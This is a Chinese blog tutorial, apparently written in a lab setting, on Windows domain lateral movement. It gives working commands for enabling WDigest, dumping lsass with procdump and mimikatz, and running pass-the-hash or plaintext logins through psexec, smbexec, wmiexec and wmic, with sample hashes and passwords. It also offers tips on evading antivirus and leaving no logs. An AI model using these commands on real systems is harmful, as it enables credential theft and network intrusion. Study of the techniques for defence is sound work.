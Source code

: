 ```yaml
---
layout: post
title: "内网渗透-smb&wmi明文&hash传递"
date: "2023-01-07T02:38:11.655Z"
---
```

内网渗透-smb&wmi明文&hash传递
=====================

首先我们要知道，在windows2012以上版本默认会关闭wdigest，那么攻击者就无法从内存中获取明文密码了

windows2012以下的版本如果安装了KB2871997补丁，那么同样也会导致无法从内存中获取明文密码

windows系统LM Hash以及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在winserver2003之后，认证方式均为NTLM Hash

针对以上的情况，有四种方式可以解决：

1、利用哈希传递（pth，ptk等）进行移动

2、利用其他的服务协议（smb，wmi等）进行哈希移动

3、利用注册表操作开启Wdigest Auth值进行获取

reg add
HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f

4、利用工具或者第三方平台（hashcat）进行破解获取

（1）Procdump+Mimikatz 配合获取

因为Procdump是微软官方的一个程序，所以不会被杀软给识别，那么就可以使用procdump备份密码然后到本地使用minikatz进行读取

Procdump上执行：procdump -accepteula -ma lsass.exe lsass.dmp

mimikatz 上执行： sekurlsa::minidump lsass.dmp

　　　　　　　　  sekurlsa::logonPasswords full

 如果拿到了hash值，那么就可以使用hashcat去破解

（2）域横向移动SMB服务利用-psexec，smbexec（官方自带）

利用SMB服务可以通过明文或者hash传递来远程执行，条件是445服务端口开放

1）psexec的使用

1.先建立IPC回话，然后使用SMB服务

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201652523-1256473322.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201757980-1398161473.png)

 2.直接使用明文连接不需要IPC连接

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202005320-1960398768.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202023428-1152560980.png)

 （3）如果没有明文密码，但是拿到了密码的hash值，也可以通过pstool进行连接，但是需要使用的是impacket中的psexec，因为是第三方开发的工具，所以可能会被杀软识别，因此只能看情况去使用

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202552952-82039936.png)

 2）smbexec的使用

smbexec无需建立ipc的连接，可以使用明文或者hash的传递，但是smbexec是第三方软件同样需要先做免杀才可以，以下是一些使用方法的示例

smbexec god/administrator:Admin12345@192.168.3.21　　连接god域中的administrator用户

smbexec ./administrator:admin!@#45@192.168.3.32　　　 连接本地的administrator用户

hash方法的话需要在minikatz中找到对应用户的密码hash值的NTLM或者LM值，具体使用哪个得看操作系统的版本。

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106203913331-576896792.png)

 然后在使用以下的命令

smbexec -hashes :$HASH$ ./admin@192.168.3.21

smbbexec -hashes :$HASH$ domain/admin@192.168.3.21

smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32

smbexec -hashes :ccef208c6485269c20db2cad21734fe7god/administrator@192.168.3.21

（3）域横向移动 WMI 服务利用-cscript,wmiexec,wmic

WMI(Windows Management Instrumentation) 是通过 135 端口进行利用，支持用户名明文或者 hash 的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

自带WMIC　　只能进行明文传递　　无回显

wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >C:\\1.txt"

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205009189-196008115.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205023015-1817583004.png)

自带 cscript 　　只能进行明文传递 　　有回显　　但是需要借助一个叫做wmiexec.vbs的文件进行操作![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205202287-1794763031.png)

cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205227167-1600059684.png)

套件 impacket wmiexec 明文或 hash 传递 有回显 exe 版本

wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"　　本地主机账户

wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"　　域账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205352100-1485594123.png)

wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"　　本地主机账户

wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"　　域主机账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205444975-293601675.png)

 所以综上所述：

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205812720-2112335278.png)